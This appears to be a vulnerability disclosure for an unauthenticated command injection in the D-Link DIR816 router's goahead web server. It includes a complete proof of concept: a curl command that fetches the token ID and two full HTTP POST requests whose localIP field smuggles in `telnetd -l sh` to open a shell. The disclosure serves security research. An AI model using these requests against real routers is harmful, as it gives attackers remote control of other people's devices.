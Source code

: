 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an command Injection vulnerability in D-Link router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Remote Command Execution**

In `goahead` binary:

In `setipsec_config` function, `localIP、remoteIP` is directly passed by the attacker, so we can control the `localIP、remoteIP` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

Eventually, in `IpsecAction` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

Vulnerability trigger steps:

* set `localIP`=**192.168.2.1 `telnetd -l sh`**, in (`setipsec_config`)
* Trigger the vulnerability, in (`IpsecAction`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

set `localIP`=**192.168.2.1 `telnetd -l sh`**, in (`setipsec_config`)

```http
POST /goform/setipsec_config HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 428
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

connName=1&remoteGWAddr=any&localIPMode=1&localIP=192.168.2.1 `telnetd -l sh`&localMask=1&remoteIP=any&remoteIPMode=1&remoteMask=1&keyExM=1&authM=1&psk=1&certificateName=1&perfectFSEn=1&manualEncryptionAlgo=1&manualEncryptionKey=1&manualAuthAlgo=1&manualAuthKey=1&spi=1&ph1Mode=1&ph1EncryptionAlgo=1&ph1IntegrityAlgo=1&ph1DHGroup=1&ph1KeyTime=1&ph2EncryptionAlgo=1&ph2IntegrityAlgo=1&ph2DHGroup=1&ph2KeyTime=1&tokenid=1714636915
```

Trigger the vulnerability, in (`IpsecAction`)

```http
POST /goform/IpsecAction HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

actionType=en&actRule0=&tokenid=424238335
```



## Result

Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

